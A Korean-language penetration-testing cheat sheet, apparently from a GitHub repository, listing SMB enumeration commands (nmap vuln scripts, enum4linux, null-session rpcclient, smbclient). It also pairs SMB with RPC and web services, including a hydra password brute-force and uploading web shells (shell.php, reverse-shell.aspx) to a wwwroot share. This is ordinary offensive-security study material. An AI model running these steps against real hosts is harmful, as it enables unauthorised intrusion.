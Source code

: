 ### 🔍 정보 부족시

```bash
# 더 상세한 NSE 스크립트
nmap --script "smb-enum-* or smb-vuln-* or smb-security-mode" -p 139,445 {IP}

# enum4linux 상세 모드
enum4linux -v -a {IP}

# rpcclient로 더 많은 정보 수집
rpcclient -U "" -N {IP}
# 연결 후:
srvinfo
enumprinters
enumdrivers
enumprivs
```

### 📱 Windows 버전별 문제

```bash
# Windows 10/2016+ (SMB 서명 강제)
smbclient -L //{IP} -N --option='client signing=yes'

# 구형 Windows (SMB1만 지원)
smbclient -L //{IP} -N --option='client min protocol=NT1'
smbclient -L //{IP} -N --option='client max protocol=NT1'

# 도메인 환경
smbclient -L //{IP} -U {DOMAIN}\\{USERNAME}
```

---

## 🔗 다른 서비스와 연계

### 🔐 RPC와 연계 (135 포트)

```bash
# RPC에서 수집한 사용자로 SMB 접근
rpcclient -U "" -N {IP}
enumdomusers
# 수집한 사용자들로 SMB 브루트포스
hydra -L rpc_users.txt -P passwords.txt smb://{IP}
```

### 🌐 웹 서비스와 연계

```bash
# SMB 공유에서 웹 파일 업로드
smbclient //{IP}/wwwroot -U {USERNAME}
put shell.php
put reverse-shell.aspx

# 웹 서비스에서 발견한 크레덴셜로 SMB 접근
smbclient -L //{IP} -U {WEB_DISCOVERED_USER}
```
